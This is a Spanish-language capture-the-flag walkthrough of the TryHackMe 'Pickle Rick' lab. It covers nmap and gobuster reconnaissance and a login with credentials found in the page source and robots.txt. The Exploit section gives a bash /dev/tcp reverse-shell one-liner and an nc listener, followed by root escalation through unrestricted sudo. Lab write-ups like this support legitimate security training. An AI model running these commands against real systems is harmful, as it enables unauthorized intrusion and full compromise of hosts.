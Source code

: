 # Pickle Rick

[Pickle Rick](https://tryhackme.com/r/room/picklerick) es un nivel facil de la plataforma TryHackMe de nivel fácil. En esta máquina se tocan temas de WebHacking.

## Reconocimiento <a href="#reconocimiento" id="reconocimiento"></a>

Primero hacemos un escaneo de puertos con **nmap**.

```bash
nmap -p- --open --min-rate 5000 -n -Pn -vvv 10.10.147.169 -oN escaneo 
```

* **-p-**: Indica que escanee todos los puertos , desde el 1 hasta el 65535. Sin este parámetro solo se escanea los 1000 puertos más comunes.
* **–open**: Solo escanear puertos abiertos.
* **-sS**: SYN Scan, también conocido como half-open scan, este no completa la conexión con el destino, esto hace el escaneo un poco más rápido y difícil de detectar.
* **-sC**: Activa la ejecución de scripts de predeterminados Nmap Scripting Engine (NSE).
* **-sV**: Encuentra la versión de servicio que corre en cada puerto.
* **–min-rate**: Fija la cantidad mínima de paquetes para enviar por segundo.
* **-n**: No resolución DNS.
* **-Pn**: Null Ping. Se usa por si el servidor esta bloqueando trazas ICMP.
* **-vvv**: Triple verbose. Hace que imprima la información mientras la va encontrando. Se puede modificar la cantidad de “v”, el máximo es 3.
* **-oN**: Se utiliza para guardar los resultados del escaneo en un archivo de salida en **formato normal** (normal output). Siempre va acompañado del nombre del archivo donde se guardara.

Este escaneo nos muestra que la máquina tiene abiertos los puertos: **80(HTTP)** y **22(SSH)**.

Entramos a la página y hacemos un poco de exploración.

<figure><img src="https://eberstr.github.io/img/picklerick/sitio.png" alt=""><figcaption></figcaption></figure>

La página es muy sencilla por lo que nos brincamos directo a inspeccionar el código fuente, ahí encontramos algo muy interesante **¡un usuario!**\


<figure><img src="https://eberstr.github.io/img/picklerick/user.png" alt=""><figcaption></figcaption></figure>

\
Una vez encontrado el usuario exploramos algunas rutas que siempre son de interes como `robots.txt` y `sitemaps.xml`. Al parecer no existe el archivo sitemaps pero dentro de robots encontramos un mensaje un poco extraño que guardaremos para después.

<figure><img src="https://eberstr.github.io/img/picklerick/robots.png" alt=""><figcaption></figcaption></figure>



## Fuzzing <a href="#fuzzing" id="fuzzing"></a>

Para esta etapa usaremos gobuster, buscaremos subdominios interesantes y archivos con extensiones **.php**, .html y **.txt**

```bash
gobuster dir -u http://10.10.147.169 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```



<figure><img src="https://eberstr.github.io/img/picklerick/fuzzing.png" alt=""><figcaption></figcaption></figure>

De los resultados más interesantes es el panel de login, en el cual intentamos ingresar utilizando el usuario `R1ckRul3s` y de contaseña `Wubbalubbadubdub`\
\


<figure><img src="https://eberstr.github.io/img/picklerick/login.png" alt=""><figcaption></figcaption></figure>

**¡¡Funcionó!!**

Dentro del panel nos encontramos con un panell de comandos. Le ingresamos el comando `whoami` para probar si funciona.

<figure><img src="https://eberstr.github.io/img/picklerick/command-panel.png" alt=""><figcaption></figcaption></figure>

## Exploit <a href="#exploit" id="exploit"></a>

Como se ve en la imagen, el comando funcionó. Ahora nos intentamos enviar una reverse shell para trabajar un poco más cómodos desde la terminal.

```bash
bash -c  "sh -i >& /dev/tcp/<IP Victima>/<puerto> 0>&1"
```

No olviden ponerse en escucha para poder recibir la reverse shell:

```bash
sudo nc -lnvp <puerto>
```



<figure><img src="https://eberstr.github.io/img/picklerick/reverse-shell.png" alt=""><figcaption></figcaption></figure>

Una vez recibida la shell exploramos archivos y vemos los primeros archivos interesantes en la ruta de `/var/www/html`.

<figure><img src="https://eberstr.github.io/img/picklerick/primer-ingrediente.png" alt=""><figcaption></figcaption></figure>

El primer archivo interesante es **Sup3rS3cretPickl3Ingred.txt** en el cual esta el primer ingrediente que estamos buscando. El segundo archivo es **clue.txt** en el cual solo nos indican que tenemos que explorar en los demás archivos.

El primer lugar en el que buscamos es en la ruta del usuario rick **/home/rick/** y justo encontramos lo que buscabamos: **second ingridients**.

<figure><img src="https://eberstr.github.io/img/picklerick/segundo-ingrediente.png" alt=""><figcaption></figcaption></figure>

## Escalada de privilegios <a href="#escalada-de-privilegios" id="escalada-de-privilegios"></a>

Para el tercer ingrediente buscaremos en la directorio `/root` pero primero necesitaremos escalar privilegios. Para esto ejecutamos el siguiente comando:

```bash
sudo -l
```

Este comando nos sirve para listar los comandos que el usuario puede ejecutar como **sudo**. Los resultados nos muestran que el usuario `www-data` tiene permisos para ejecutar cualquier comando como sudo.

<figure><img src="https://eberstr.github.io/img/picklerick/sudo-l.png" alt=""><figcaption></figcaption></figure>

Podemos escalar privilegios simplemente ejecutando el comando `sudo su`, después vamos a la ruta **/root** en donde se encuentra el tercer ingrediente.

<figure><img src="https://eberstr.github.io/img/picklerick/tercer-ingrediente.png" alt=""><figcaption></figcaption></figure>

Y con esto logramos todos los objetivos de la máquina.

¡Saludos!
